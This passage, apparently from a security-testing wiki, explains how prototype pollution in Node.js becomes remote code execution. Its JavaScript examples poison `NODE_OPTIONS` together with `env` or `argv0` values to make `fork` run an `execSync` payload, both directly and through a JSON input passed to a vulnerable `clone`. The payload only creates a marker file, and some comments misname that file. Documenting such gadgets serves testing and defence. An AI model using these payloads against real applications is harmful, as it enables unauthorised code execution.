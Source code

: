 ### Poisoning `constructor.prototype`

```javascript
const { execSync, fork } = require('child_process');

// Manual Pollution
b = {}
b.constructor.prototype.env = { "EVIL":"console.log(require('child_process').execSync('touch /tmp/pp2rce2').toString())//"}
b.constructor.prototype.NODE_OPTIONS = "--require /proc/self/environ"

proc = fork('a_file.js');
// This should create the file /tmp/pp2rec2


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"constructor": {"prototype": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce2\\\").toString())//"}}}}')

clone(USERINPUT);

var proc = fork('a_file.js');
// This should create the file /tmp/pp2rec2
```

## PP2RCE via env vars + cmdline

A similar payload to the previous one with some changes was proposed in [**this writeup**](https://blog.sonarsource.com/blitzjs-prototype-pollution/)**.** The main differences are:

* Instead of storing the nodejs **payload** inside the file `/proc/self/environ`, it stores it i**nside argv0** of **`/proc/self/cmdline`**.
* Then, instead of requiring via **`NODE_OPTIONS`** the file `/proc/self/environ`, it **requires `/proc/self/cmdline`**.

{% code overflow="wrap" %}
```javascript
const { execSync, fork } = require('child_process');

// Manual Pollution
b = {}
b.__proto__.argv0 = "console.log(require('child_process').execSync('touch /tmp/pp2rce2').toString())//"
b.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"

// Trigger gadget
var proc = fork('./a_file.js');
// This should create the file /tmp/pp2rec2


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce2\\\").toString())//"}}')

clone(USERINPUT);

var proc = fork('a_file.js');
// This should create the file /tmp/pp2rec
```
{% endcode %}
